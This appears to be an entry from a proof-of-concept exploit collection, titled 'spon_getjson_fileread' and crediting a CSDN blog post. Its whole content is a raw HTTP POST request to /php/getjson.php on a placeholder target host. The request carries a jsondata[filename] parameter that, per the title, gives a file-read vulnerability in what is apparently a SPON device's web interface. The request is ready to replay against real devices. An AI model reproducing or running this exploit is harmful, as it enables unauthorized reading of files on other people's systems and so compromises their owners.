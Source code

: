 # spon_getjson_fileread
2024/1/15
from:https://blog.csdn.net/luochen2436/article/details/135504281?spm=1001.2014.3001.5502
@2
```
POST /php/getjson.php HTTP/1.1
Host: your_ip
Content-Length: 29
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

jsondata[filename]=./ocx.json

```

